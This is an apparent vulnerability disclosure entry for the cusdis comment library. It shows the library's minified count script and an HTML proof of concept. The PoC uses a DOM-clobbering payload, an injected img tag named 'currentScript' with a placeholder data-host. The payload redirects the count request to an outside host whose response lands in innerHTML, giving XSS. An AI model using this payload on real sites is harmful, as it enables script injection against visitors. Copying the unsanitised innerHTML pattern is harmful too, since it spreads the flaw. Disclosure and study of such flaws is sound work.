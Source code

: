 ## cusdis

### Meta

+ Library: cusdis
+ Stars: 2.6K
+ Version: latest
+ Payload: ```<img name="currentScript" data-host="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

URL: 
+ `https://github.com/djyde/cusdis`


### Vulnerable Code Snippet

```javascript
async function n() {
  const e = document.currentScript || document.querySelector("#for-testing")
    , {appId: n, host: r} = e.dataset
    , a = r || "https://cusdis.com"
    , o = document.querySelectorAll("*[data-cusdis-count-page-id]")
    , i = Array.from(o).map((e => e.dataset.cusdisCountPageId))
    , s = await t.get(`${a}/api/open/project/${n}/comments/count`, {
      params: {
          pageIds: i
      }
  });
  Array.from(o).forEach((e => {
      e.innerHTML = s.data.data[e.dataset.cusdisCountPageId]
  }
  ))
}
```

### PoC
```html

<!--Library-->
<span data-cusdis-count-page-id="XXX-YYY-ZZZ">0</span> comments
<div id="cusdis_thread"
  data-host="https://cusdis.com"
  data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22"
  data-page-id="XXX-YYY-ZZZ"
  data-page-url="XXX"
  data-page-title="XXX"></div>
</div>
<script async defer src="https://cusdis.com/js/cusdis.es.js"></script>
<script defer data-host="https://cusdis.com" data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22" src="https://cusdis.com/js/cusdis-count.umd.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-host="https://xxx.xxx.xxx">
<!--Payload-->
```